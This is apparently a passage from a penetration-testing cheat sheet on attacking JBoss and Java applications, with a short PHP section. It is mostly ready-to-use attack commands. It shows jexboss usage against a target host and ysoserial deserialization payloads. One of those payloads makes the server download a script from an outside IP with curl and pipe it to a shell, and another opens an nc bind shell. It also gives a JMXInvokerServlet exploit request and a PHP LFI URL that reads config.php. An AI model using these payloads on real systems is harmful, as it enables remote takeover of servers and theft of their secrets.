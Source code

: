 Auto-check and exploitation tool (https://github.com/joaomatosf/jexboss)

```
    git clone https://github.com/joaomatosf/jexboss.git
    cd jexboss
    pip install -r requires.txt
    python jexboss.py -h
    python jexboss.py -host http://target_host:8080
```

### Java Deserialization

[Java Deserialization Cheat Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)

[How to get a full shell through Java Runtime.exec](http://codewhitesec.blogspot.de/2015/03/sh-or-getting-shell-environment-from.html)

Ysoserial payload to execute full commands

```
    sh -c $@|sh . <payload here>
```

Generate a ysoserial payload to tell server to download further commands via curl and pipe to shell

```
    java -jar ysoserial-0.0.4-all.jar CommonsCollections1 'sh -c $@|sh . curl http://10.42.65.40/commands.sh |sh' > jenkins_curl_shell.bin
```

Generate a ysoserial payload to execute nc bind shell

```
    java -jar ysoserial-0.0.4-all.jar CommonsCollections1 'sh -c $@|sh . nc -lp 8088 -e /bin/bash' > nc-jenkins.out
```

#### JMXInvokerServlet

```
    ./ysoserial-master-v0.0.4-gad26e2b-61.jar CommonsCollections5 "touch /tmp/pwned" >payload.txt
```

Generate payload with yososerial and send with Burp. You will get a jboss.invocation.InvocationException response on success or failure.

Ensure the headers match these:

```
    POST /invoker/JMXInvokerServlet HTTP/1.1
    Host: <hostname/IP>:8080
    Content-Type:application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue
    Content-Length: 2083
```

#### PHP

LFI Read File (without executing)

```
    www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
```
